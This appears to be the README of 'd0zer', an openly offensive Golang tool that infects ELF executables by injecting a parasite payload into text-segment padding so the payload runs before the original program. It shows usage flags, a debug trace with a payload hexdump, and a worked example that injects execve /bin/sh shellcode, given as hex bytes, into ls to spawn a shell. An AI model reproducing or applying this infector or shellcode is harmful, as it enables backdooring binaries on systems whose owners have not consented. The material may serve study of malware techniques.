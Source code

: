 # d0zer
Elf binary infector written in Golang. It can be used for infecting executables of type ET_DYN and ET_EXEC with a payload of your creation. Utilizing the classic elf text segment padding algorithm by Silvio Cesar, your payload (parasite) will run before native functionality of the binary effectively backooring the binary.

d0zer currently allows for up to a page size payload (4096 bytes). It is capable of infecting both x86_32 and x86_64  elf executable binaries executables.

# Motivation
My motivations are quite simple, I have a proclovity for the darkside of computer science (lol) and binary infections of a target requires a decent amount of overhead knowledge and skill prequisite to accomplish it (TO ME), so I set out to learn from papers, books and specs from the past (see references), throwed Golang in the middle for increased difficulty and here I am.

# Usage

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer --help
Usage of ./d0zer:
  -debug
    	see debug out put (generated payload, modifications, etc)
  -noPreserve
    	prevents d0zer from prepending its register preservation routine to your payload
  -noRestoration
    	prevents d0zer from appending register restoration routine to your payload
  -noRetOEP
    	prevents d0zer from appending ret-to-OEP (continue execution after payload) to payload
  -payloadBin string
    	path to binary containing payload
  -payloadEnv string
    	name of the environmental variable holding the payload
  -target string
    	path to binary targetted for infection
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Basic demo (benign) infection can be accomplished with `./dozer -target [path-to-target]`.

<pre> 
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
hello -- this is a non destructive payloadd0zer	     epiloguejmp.go  jmp-to-oep32      jmp-to-oep.o		  non-destructive-payload32.asm  non-destructive-payload64.o  shellcode.c
d0zer.go     experimental    jmp-to-oep32.asm  LICENSE			  non-destructive-payload32.o	 output			      test
elf64	     genpayload.go   jmp-to-oep32.o    non-destructive-payload	  non-destructive-payload64	 README.md		      test.go
epiloguejmp  jmp-to-oep      jmp-to-oep.asm    non-destructive-payload32  non-destructive-payload64.asm  shellcode
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Supplying `-debug` allows you to see each step of the infection algorithm at work aswell as a hexdump of the payload as it will be in the binary. 

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -debug
[+] Modified entry point from 0x5b20 -> 0x173d1
[+] Text segment starts @ 0x4000
[+] Text segment ends @ 0x173d1
[+] Payload size pre-epilogue 0x5c
[+] Payload size post-epilogue 0x90
------------------PAYLOAD----------------------------
00000000  50 51 53 52 56 57 55 54  41 50 41 51 41 52 41 53  |PQSRVWUTAPAQARAS|
00000010  41 54 41 55 41 56 41 57  eb 00 e8 2b 00 00 00 68  |ATAUAVAW...+...h|
00000020  65 6c 6c 6f 20 2d 2d 20  74 68 69 73 20 69 73 20  |ello -- this is |
00000030  61 20 6e 6f 6e 20 64 65  73 74 72 75 63 74 69 76  |a non destructiv|
00000040  65 20 70 61 79 6c 6f 61  64 0a b8 01 00 00 00 bf  |e payload.......|
00000050  01 00 00 00 5e ba 2a 00  00 00 0f 05 41 5f 41 5e  |....^.*.....A_A^|
00000060  41 5d 41 5c 41 5b 41 5a  41 59 41 58 5c 5d 5f 5e  |A]A\A[AZAYAX\]_^|
00000070  5a 5b 59 58 e8 12 00 00  00 48 83 e8 79 48 2d d1  |Z[YX.....H..yH-.|
00000080  73 01 00 48 05 20 5b 00  00 ff e0 48 8b 04 24 c3  |s..H. [....H..$.|
--------------------END------------------------------
[+] Generated and appended position independent return 2 OEP stub to payload
[+] Increased text segment p_filesz and p_memsz by 144 (length of payload)
[+] Adjusting segments after text segment file offsets by 0x%x 4096
Inceasing pHeader @ index 4 by 0x1000
Inceasing pHeader @ index 5 by 0x1000
Inceasing pHeader @ index 6 by 0x1000
Inceasing pHeader @ index 8 by 0x1000
Inceasing pHeader @ index 10 by 0x1000
[+] Increasing section header addresses if they come after text segment
[+] Extending section header entry for text section by payload len.
[+] (15) Updating sections past text segment @ addr 0x18000
[+] (16) Updating sections past text segment @ addr 0x1d324
[+] (17) Updating sections past text segment @ addr 0x1dc78
[+] (18) Updating sections past text segment @ addr 0x21fd0
[+] (19) Updating sections past text segment @ addr 0x21fd8
[+] (20) Updating sections past text segment @ addr 0x21fe0
[+] (21) Updating sections past text segment @ addr 0x22a58
[+] (22) Updating sections past text segment @ addr 0x22c58
[+] (23) Updating sections past text segment @ addr 0x23000
[+] (24) Updating sections past text segment @ addr 0x23280
[+] (25) Updating sections past text segment @ addr 0x0
[+] (26) Updating sections past text segment @ addr 0x0
[+] writing payload into the binary
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

A custom payload can be injected into the binary with the `-payloadEnv` flag. Below I inject a basic execve /bin/sh shellcode into the ls command as an example.

<pre>
[sad0p@Arch-Deliberate d0zer]$ export DOZEREGG="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadEnv DOZEREGG
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
sh-5.1$ 
</pre>

It's worth noting that code being injected should be position independent.

The `-payloadBin` flag is currently not implemented, it would allow you to supply a PIE (binary), where the contents of the text
segments would serve as the payload.

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadBin ./non-destructive-payload64
Getting payload from an ELF binary .text segment is not yet supported
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

# Advance Usage
